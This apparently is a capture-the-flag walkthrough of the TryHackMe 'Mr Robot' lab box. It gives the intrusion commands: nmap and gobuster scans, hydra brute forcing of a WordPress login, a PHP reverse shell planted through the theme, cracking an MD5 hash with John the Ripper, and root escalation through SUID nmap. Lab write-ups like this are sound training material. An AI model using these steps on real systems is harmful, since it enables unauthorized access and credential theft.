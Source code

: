 ```yaml
---

title: Box - Mr Robot CTF
published: true
---
```


Based on the Mr. Robot show, can you root this box?

[https://tryhackme.com/room/mrrobot](https://tryhackme.com/room/mrrobot)

![](/assets/mrrobot01.jpg)

* * *

## Hack the Machine

##   Nmap Scans

- Discover open ports with ``nmap -Pn -sS -T5 10.10.122.32 -p- -vvv``
- We find ports 22,80,443
- Port 22/tcp  closed ssh      reset ttl 61

> Port 80/tcp  open   http     syn-ack ttl 61 Apache httpd
> http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
> http-title: Site doesn't have a title (text/html).
> http-methods: 
> Supported Methods: GET HEAD POST OPTIONS
> http-server-header: Apache

##  What is key 1?

- ``gobuster dir -u http://10.10.122.32/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -x txt,html,php -t 100``
- Robots.txt

##  What is key 2?

- ``/wp-login.php`` we can brute force using the fsocity.dic found in robots.txt
- using foxyproxy and burpsuite we can capture what we need to generate our hydra code
- ``hydra -L fsocity.dic -p password 10.10.122.32 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username"``
- We find username Elliot
- ``hydra -l Elliot -P fsocity.dic 10.10.122.32 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:The Password you entered for the username"``
- eventually you will get the password ``ER28-0652``
- open up netcat listener and change the theme to php reverse shell
- upgrade shell ``python -c 'import pty; pty.spawn("/bin/bash")'``

![](/assets/mrrobot02.png)

- John the ripper the raw-md5 hash in robot dir in order to su to robot ``john password.raw-md5 --wordlist=fsocity.dic --format=Raw-MD5``

![](/assets/mrrobot03.png)

##   Linpeas.sh - PrivESC Vectors

- **SUID** - /usr/local/bin/nmap - [GTFO BINS](https://gtfobins.github.io/gtfobins/nmap/#suid)

- ``nmap --interactive``

```shell
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !whoami
!whoami
root
waiting to reap child : No child processes
nmap> !sh
!sh
# whoami
whoami
root
```

##  What is key 3?

![](/assets/mrrobot04.png)

* * * 